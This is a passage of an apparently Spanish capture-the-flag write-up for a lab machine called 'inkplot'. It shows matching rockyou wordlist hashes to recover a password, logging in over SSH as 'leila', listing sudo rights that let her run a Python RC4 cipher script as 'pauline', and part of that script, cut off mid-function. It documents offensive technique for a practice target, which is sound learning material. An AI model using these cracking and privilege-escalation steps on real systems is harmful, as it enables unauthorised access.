```
$ ./script.sh /usr/share/wordlists/rockyou.txt | grep -E "d51540" 
Línea: pa***** | Hash MD5: d515407c6ec25b2a61656a234ddf22bd
Línea: int******** | Hash MD5: d51540c4ecaa62b0509f453fee4cd66b
```

Obtengo un par de resultados, así que ahora toca probar.

```
$ ssh leila@192.168.1.28
╭─leila@inkplot ~ 
╰─$ :)
```

Shell!!

## Escalado de privilegios

### Leila

Compruebo permisos de **sudo**.

```
╭─leila@inkplot ~ 
╰─$ sudo -l
sudo: unable to resolve host inkplot: Name or service not known
Matching Defaults entries for leila on inkplot:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User leila may run the following commands on inkplot:
    (pauline : pauline) NOPASSWD: /usr/bin/python3 /home/pauline/cipher.py*
```

Puedo ejecutar el script "/home/pauline/cipher.py" como el usuario Pauline.

cipher.py
```py
import os
import json
import argparse
from Crypto.Cipher import ARC4
import base64

with open('/home/pauline/keys.json', 'r') as f:
    keys = json.load(f)

crypt_key = keys['crypt_key'].encode()

def encrypt_file(filepath, key):
    with open(filepath, 'rb') as f:
        file_content = f.read()

    cipher = ARC4.new(key)
    encrypted_content = cipher.encrypt(file_content)

    encoded_content = base64.b64encode(encrypted_content)

    base_filename = os.path.basename(filepath)

    with open(base_filename + '.enc', 'wb') as f:
        f.write(encoded_content)

    return base_filename + '.enc'

def decrypt_file(filepath, key):
    with open(filepath, 'rb') as f:
```
